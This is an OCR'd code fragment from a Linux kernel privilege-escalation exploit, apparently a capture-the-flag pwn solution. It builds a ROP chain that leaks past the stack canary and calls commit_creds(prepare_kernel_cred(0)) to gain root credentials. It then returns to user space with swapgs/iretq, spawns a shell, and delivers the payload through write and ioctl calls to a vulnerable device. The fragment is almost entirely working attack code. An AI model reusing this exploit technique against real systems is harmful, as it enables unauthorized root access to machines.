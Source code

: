 ```assembly
    //rbp-0x50
    for(i=0; i<10; i++){ 
        rop[i] = canary;
    }


    //commit_creds(prepare_kernel_cred(0))
    //rdi = 0;ret prepare_kernel_cred
    //prepare_kernel_cred(0)
    rop[i++] = 0xffffffff81000b2f + offset; //pop rdi; ret
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    
    //rax = prepare_kernel_cred(0)
    //rdx = rop 2
    //retn rop 3 mov rdi,rax;call rdx;
    //call rop 2 -> pop "cmp rbx,r15" to rcx
    //retn commit_creds
    rop[i++] = 0xffffffff810a0f49 + offset; //pop rdx; ret  1
    rop[i++] = 0xffffffff81021e53 + offset; //pop rcx; ret  2
    rop[i++] = 0xffffffff8101aa6a + offset; //mov rdi,rax; call rdx; 3
    rop[i++] = commit_creds;
    

    //kernel space to user spcace :swapgs iretq
    //swapgs: get kernel data structure
    //popfq:pop eflags
    //retn iretq
    rop[i++] = 0xffffffff81a012da + offset; //swapgs; popfq; ret
    rop[i++] = 0;
    
    //iretq:from kernel space to user space
    //prepare cs,eflags.rsp,
    rop[i++] = 0xffffffff81050ac2 + offset; //iretq; ret
    
    
    rop[i++] = (size_t)spawn_shell; //rip

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    
    write(fd,rop,0x800);
    ioctl(fd, 0x6677889A, 0xffffffffffff0000 | (0x100));

   
    return 0;
}
```
